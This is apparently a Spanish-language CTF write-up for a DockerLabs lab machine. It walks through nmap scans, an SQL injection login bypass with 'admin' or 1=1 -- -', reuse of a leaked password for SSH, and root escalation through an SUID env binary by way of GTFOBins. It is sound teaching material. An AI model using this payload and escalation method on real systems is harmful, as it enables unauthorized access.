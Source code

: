 #Writeups #VeryEasy #DockerLabs

Comenzamos con un escaneo general de nmap:
```bash
❯ sudo nmap -sS -Pn -p- --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:07 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

Vemos que solo hay un servivio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 11:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
```

Con esto, vamos al navegador y vemos que en el http esta alojada esta web:

![webInjection.png](assets/webInjection.png)


Despues de enumerar y buscar por la web no encontramos nada por lo que vamos a probar en el login una inyección sql:

Empezaremos con **admin' or 1=1 -- -** a ver que tipo de repuesta nos da la web.
Y la contraseña será un texto aleatorio.

![sqllogininject.png](assets/sqllogininject.png)

Y nos sale un caso positivo a la primera, Obtenemos acceso a la cuenta de un usuario:
![logedInj.png](assets/logedInj.png)

Vemos este mensaje:

**Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78**

por lo que ya tenemos un usuario y contraseña.

Vamos a probar iniciar sesión en el ssh con estas credenciales:

```bash
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2 s password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@c5945d70c932:~$ 

```

Una vez dentro vemos que somos el ususario dylan, vamos a intentar conseguir root, como la maquina es very easy con buscar permisos sudo o suid seguramente ya nos valdrá:

Y efectivamente, vemos que tenemos suid de env

```bash
dylan@c5945d70c932:~$ whoami
dylan
dylan@c5945d70c932:~$ sudo -l
-bash: sudo: command not found
dylan@c5945d70c932:~$ find / -perm 4000 2>/dev/null
dylan@c5945d70c932:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
dylan@c5945d70c932:~$
```

Vamos a la web de gtfobins y buscamos el caso de env:
[GTFOBINS Web: /env](https://gtfobins.github.io/gtfobins/env/#suid)

y aplicando el comando que nos indica obtenemos root:

![rootInjection.png](assets/rootInjection.png)
